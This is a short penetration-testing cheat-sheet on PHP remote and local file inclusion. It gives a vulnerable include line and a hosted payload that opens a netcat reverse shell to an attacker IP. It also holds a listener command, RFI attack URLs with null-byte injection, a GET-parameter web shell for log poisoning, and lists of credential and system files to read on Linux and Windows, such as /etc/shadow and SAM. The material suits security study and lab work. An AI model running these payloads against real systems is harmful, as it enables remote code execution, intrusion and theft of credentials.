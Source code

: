 #### Websites: RFI 
Is unsanitized php passed to the PHP `include` function & php.ini file > allow remote files?

/etc/php5/cgi/php.ini - `allow_url_fopen` and `allow_url_include` both set to `on`
```php
include($_REQUEST["file"].".php");
```

##### RFI: Host evil.txt on apache and serve it as the LANG file
```php
<?php echo shell_exec(“nc –nv 10.11.0.160 4444 –e cmd.exe");?> # evil.txt on apache
```

```
nc –nvlp 4444 # set up listener
```

`http://10.11.15.54/addguestbook.php?name=a&comment=b&LANG=http://10.11.0.160/evil.txt%00`

Or

`http://192.168.11.35/addguestbook.php?name=a&comment=b&LANG=http://192.168.10.5/evil.txt`
```php
<?php echo shell\_exec("ipconfig");?>
```

If a phpinfo() file is present, it’s usually possible to get a shell: Find the phpinfo() file

```php
<?php echo shell_exec($_GET['cmd']);?> # Contaminating Log Files
```

##### LFI Linux Files:
```bash
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root
```

##### LFI Windows Files:
```bash
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\repair\SAM
%WINDIR%\win.ini
%SYSTEMDRIVE%\boot.ini
%WINDIR%\Panther\sysprep.inf
%WINDIR%\system32\config\AppEvent.Evt
```
